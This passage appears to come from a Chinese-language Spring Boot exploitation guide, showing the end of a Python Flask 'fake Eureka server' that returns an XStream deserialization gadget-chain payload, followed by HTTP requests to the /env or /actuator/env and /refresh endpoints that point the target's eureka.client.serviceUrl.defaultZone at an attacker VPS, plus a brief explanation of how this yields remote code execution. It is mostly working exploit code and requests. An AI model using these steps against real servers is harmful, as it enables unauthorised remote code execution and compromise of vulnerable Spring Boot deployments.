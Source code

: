 ```python
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=4433)
```

3. 设置 eureka.client.serviceUrl.defaultZone 属性

spring 1.x
```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x
```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

4. 刷新配置

spring 1.x
```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x
```
POST /actuator/refresh
Content-Type: application/json
```

**漏洞原理**
- eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
- refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
- 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞


# 备注
[SpringBootVulExploit]